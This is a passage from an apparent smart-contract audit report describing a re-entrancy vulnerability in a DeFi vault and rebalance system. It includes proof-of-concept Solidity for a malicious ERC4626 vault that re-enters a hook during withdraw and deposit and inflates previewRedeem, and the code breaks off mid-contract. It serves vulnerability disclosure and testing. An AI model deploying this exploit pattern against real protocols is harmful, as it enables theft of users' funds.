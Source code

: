 ```solidity
        reserveChange = vault.withdraw(amount, user, address(this));
    }
}
```

A slightly less impactful but still critical alternative would be for a malicious fulfiller of a Flood Plain rebalance order to re-enter during the `IFulfiller::sourceConsideration` call. This assumes that the attacker holds the top bid and is set as the am-AMM manager. It is equivalent to the Pashov Group finding C-03 and remains possible despite the implementation of the recommended mitigation due to the re-entrancy guard override described above.

**Proof of Concept:** To run the following PoCs:
* Add the following malicious vault implementation inside `test/mocks/ERC4626Mock.sol`:

```solidity
interface MaliciousHook {
    function continueAttackFromMaliciousVault() external;
}

contract MaliciousERC4626 is ERC4626 {
    address internal immutable _asset;
    MaliciousHook internal immutable maliciousHook;
    bool internal attackStarted;

    constructor(IERC20 asset_, address _maliciousHook) {
        _asset = address(asset_);
        maliciousHook = MaliciousHook(_maliciousHook);
    }

    function asset() public view override returns (address) {
        return _asset;
    }

    function name() public pure override returns (string memory) {
        return "MockERC4626";
    }

    function symbol() public pure override returns (string memory) {
        return "MOCK-ERC4626";
    }

    function setupAttack() external {
        attackStarted = true;
    }

    function previewRedeem(uint256 shares) public view override returns (uint256 assets) {
        return type(uint128).max;
    }

    function withdraw(uint256 assets, address to, address owner) public override returns(uint256 shares){
        if(attackStarted) {
            maliciousHook.continueAttackFromMaliciousVault();
        } else {
            return super.withdraw(assets, to, owner);
        }
    }

    function deposit(uint256 assets, address to) public override returns(uint256 shares){
        if(attackStarted) {
            maliciousHook.continueAttackFromMaliciousVault();
        } else {
            return super.deposit(assets, to);
        }
```
